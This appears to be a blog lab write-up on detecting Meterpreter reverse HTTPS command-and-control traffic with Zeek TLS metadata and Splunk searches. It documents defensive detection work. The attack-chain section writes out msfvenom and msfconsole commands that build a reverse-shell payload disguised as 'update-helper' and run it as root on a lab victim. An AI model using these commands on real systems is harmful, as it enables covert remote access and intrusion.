









# CASE-004 Extension — Detecting Meterpreter HTTPS C2 with Zeek and Splunk

## What I Was Trying to Answer

After finishing the DNS tunneling lab I kept thinking about one thing: DNS tunneling has obvious signals — unusual record types, encoded query names, high query volume. Those signals exist because DNS isn't designed to carry payload data, so the abuse sticks out.

HTTPS is different. It's designed to carry encrypted data. Every browser on every machine does it constantly. If an attacker runs C2 over HTTPS, the payload is completely hidden inside TLS. You can't read it. So how do you detect something you can't see?

That's what this extension is about. Same lab, same four VMs, same Zeek and Splunk pipeline — but this time I'm detecting Meterpreter reverse HTTPS C2 using only TLS metadata. No content inspection. No signatures. Just behavior.

The short answer: it works.

**MITRE ATT&CK Techniques:**
- T1071.001 — Application Layer Protocol: Web Protocols
- T1573.002 — Encrypted Channel: Asymmetric Cryptography
- T1105 — Ingress Tool Transfer

---

## Lab Environment

Same infrastructure from CASE-004, nothing new needed:

| VM | Role | IP |
|---|---|---|
| Kali Linux | Attacker — Metasploit handler | 192.168.122.3 |
| dns-tunnel-victim | Victim — runs Meterpreter payload | 192.168.122.13 |
| Ubuntu Server (robertserver) | Zeek sensor + Splunk forwarder | 192.168.122.7 |
| Splunk Indexer | SIEM — detection and analysis | 192.168.122.11 |

The only additions were a new `[zeek:ssl]` stanza in props.conf and a new monitor entry in inputs.conf — same pattern as the `zeek:dns` fix from CASE-004.

**Tools:**
- Metasploit Framework v6.4.90 — msfvenom for payload generation, msfconsole for the handler
- Meterpreter — the reverse HTTPS C2 agent
- Zeek — captures TLS metadata in ssl.log and conn.log
- Splunk Enterprise 10.2 — ingests Zeek logs and runs detections

---

## The Attack Chain

### Step 1 — Generate the payload

I used msfvenom to create a reverse HTTPS Meterpreter payload. I named it `update-helper` — a filename that blends in with legitimate system processes, which is exactly what a real attacker would do.

```bash
msfvenom -p linux/x64/meterpreter_reverse_https \
  LHOST=192.168.122.3 LPORT=4443 \
  -f elf -o /tmp/update-helper
```



The output is a 1.1MB ELF binary. When executed on the victim it calls back to Kali over HTTPS on port 4443. Nothing about the filename hints at what it does.

### Step 2 — Start the handler

On Kali I opened msfconsole, configured the handler to match the payload, and started listening:

```bash
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_https
set LHOST 192.168.122.3
set LPORT 4443
run
```



### Step 3 — Transfer the payload to the victim

```bash
scp /tmp/update-helper robertnile@192.168.122.13:/tmp/update-helper
```



In a real attack this step would happen through the initial access vector — a phishing macro, an exploit, or an existing foothold. In the lab I'm simulating that by transferring it directly.

### Step 4 — Execute and establish the session

On the victim VM:

```bash
chmod +x /tmp/update-helper
sudo /tmp/update-helper
```

The payload runs, calls back to Kali, and Meterpreter session 1 opens.



Something worth noting in the session output: Meterpreter masquerades as a legitimate browser. The User-Agent it sends is `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 Chrome/131.0.0.0 Safari/537.36 Edg/131.0.2903.86` — a real Windows Edge browser string. From basic HTTP inspection it looks like a Windows machine browsing the web. That's intentional evasion built into the tool.

### Step 5 — Root shell confirmed

From the Meterpreter console I ran standard enumeration commands to generate C2 traffic and confirm the access level:

```
meterpreter > sysinfo
Computer    : 10.0.2.15
OS          : Ubuntu 22.04
meterpreter > getuid
Server username: root
meterpreter > shell
whoami → root
id → uid=0(root) gid=0(root) groups=0(root)
hostname → dns-tunnel-victim
```



Full root access. Delivered over encrypted HTTPS. The payload content is invisible to any network monitor — but the behavior isn't.

---

## What Zeek Captured

Before touching Splunk I tailed the raw ssl.log on robertserver to see what Zeek was recording in real time.



Every single row shows the same things:
- 192.168.122.13 → 192.168.122.3:4443
- TLSv12, TLS_RSA_WITH_AES_128_CBC_SHA
- The same certificate hash repeated across every connection
- `self signed certificate` on every row

The payload content is encrypted. The metadata is not. That's the gap the detections exploit.

---

## Splunk Configuration

I added `zeek:ssl` to both props.conf and inputs.conf on the forwarder.

**props.conf addition:**
```ini
[zeek:ssl]
INDEXED_EXTRACTIONS = TSV
FIELD_DELIMITER = \t
HEADER_FIELD_LINE_NUMBER = 7
FIELD_HEADER_REGEX = ^#fields\t(.*)
```

**inputs.conf addition:**
```ini
[monitor:///opt/zeek/logs/current/ssl.log]
disabled = false
index = zeek
sourcetype = zeek:ssl
```

The `FIELD_HEADER_REGEX` fix is the same one I documented in CASE-004 for `zeek:dns`. It's required for any Zeek TSV sourcetype — without it, field names misalign and every query returns wrong or null values. Worth adding this to any Zeek/Splunk deployment checklist as a standard step.

---

## Detections

### Detection 1 — Self-Signed TLS Certificate (T1573.002)

Metasploit generates its own TLS certificate for the C2 session. It's self-signed — not issued by any trusted Certificate Authority. Zeek records the `validation_status` field in ssl.log. A connection where `validation_status != "ok"` failed certificate validation. In production that's a high-priority signal — legitimate applications use CA-signed certificates.

```spl
index=zeek sourcetype=zeek:ssl
| where validation_status!="ok"
| stats count by id_orig_h, id_resp_h, id_resp_p, validation_status
| sort -count
```



192.168.122.13 made 183 connections to 192.168.122.3:4443 with `self signed certificate`. No other host appeared. In a real environment a self-signed cert from an internal IP on a non-standard port is an immediate escalation.

---

### Detection 2 — Repeated HTTPS Connections to Same Internal Destination (T1071.001)

Meterpreter maintains its channel by making continuous HTTPS connections back to the handler. Legitimate HTTPS traffic spreads across many external domains. A single host making over 10 HTTPS connections to the same internal IP on a non-standard port is not normal behavior.

```spl
index=zeek sourcetype=zeek:ssl
| stats count by id_orig_h, id_resp_h, id_resp_p
| where count > 10 AND id_resp_p!=443
| sort -count
```



215 connections from 192.168.122.13 to 192.168.122.3:4443. One source, one destination, one non-standard port. Zero false positives.

---

### Detection 3 — Beaconing Interval (T1071.001)

Meterpreter checks in at a regular machine-speed interval. I applied the same streamstats delta approach from CASE-004 Detection 3 — this time to zeek:conn filtered to port 4443. The logic is identical: calculate the time between connections per source IP, flag anything with a high count and a sub-minute average interval.

```spl
index=zeek sourcetype=zeek:conn
| where id_resp_p=4443
| sort 0 id_orig_h, _time
| streamstats current=f last(_time) as prev_time by id_orig_h
| eval delta=_time-prev_time
| where delta > 0
| stats count avg(delta) as avg_interval by id_orig_h
| where count > 5 AND tonumber(avg_interval) < 60
```



192.168.122.13 isolated cleanly: 1,244 connections at a 2.03 second average interval. No other host on the subnet appeared.

---

## Detection Summary

| Detection | Technique | Signal | Result |
|---|---|---|---|
| D1 — Self-signed certificate | T1573.002 | validation_status != ok | 183 events, 1 source IP |
| D2 — Repeated HTTPS connections | T1071.001 | count > 10 to same dest on non-443 port | 215 connections, 1 source IP |
| D3 — Beaconing interval | T1071.001 | count > 5 AND avg_interval < 60s | 1,244 connections at 2.03s avg |

---

## DNS Tunneling vs HTTPS C2 — Same Methodology, Different Protocol

| | DNS Tunneling | HTTPS C2 |
|---|---|---|
| Protocol | DNS UDP/53 | HTTPS TCP/4443 |
| Tool | dnscat2 | Meterpreter |
| Connections | 3,978 queries | 1,244 connections |
| Avg interval | 0.63s | 2.03s |
| Primary signal | Record types + query length | Self-signed cert + non-standard port |
| Log source | zeek:dns | zeek:ssl + zeek:conn |
| Detection method | Behavioral | Behavioral |

The same principle that caught DNS tunneling caught HTTPS C2 — watch what the channel does, not what it's called or what it carries. Two different protocols, two different tools, two different log sources. Same result.

---

## The Honest Limitations

I want to be clear about where these detections break down, because understanding your detection's limits is as important as building it.

**If an attacker uses port 443 with a real CA-signed certificate:** Detection 1 fails (cert is valid), Detection 2 becomes harder to tune (443 is normal). Only Detection 3 survives — beaconing interval doesn't care about port or cert validity.

**If the attacker adds jitter:** Meterpreter supports randomized beacon intervals. With enough jitter, Detection 3 becomes unreliable. At that point you need longer time-window analysis and destination reputation.

**APT-level evasion:** A sophisticated attacker with a valid cert, port 443, aged infrastructure, domain fronting, and jittered intervals — that combination is genuinely hard to catch at the network layer alone. It requires layered defenses: endpoint telemetry (EDR), threat intelligence feeds, and user behavior analytics on top of network metadata. No single detection layer catches everything.

These limitations are worth knowing. They're also why the combination of CASE-002 (Velociraptor endpoint detection) and CASE-004 (network detection) together is stronger than either alone.

---

## Files

```
screenshots/https-c2/
├── payload_created_successfull.png
├── payload_started.png
├── payload_sent_to_victim_machine.png
├── victim_connected_C2_channel_established_over_HTTPS.png
├── HTTPS-meterpreter-root-shell.png
├── zeek_captured_meterpreter_C2_over_https.png
├── HTTPS-D1-self-signed-cert.png
├── HTTPS-D2-repeated-https-connections.png
└── HTTPS-D3-beaconing-interval.png
```

---

*Extension of CASE-004 — Tunneling in Plain Sight. robertnile.github.io*
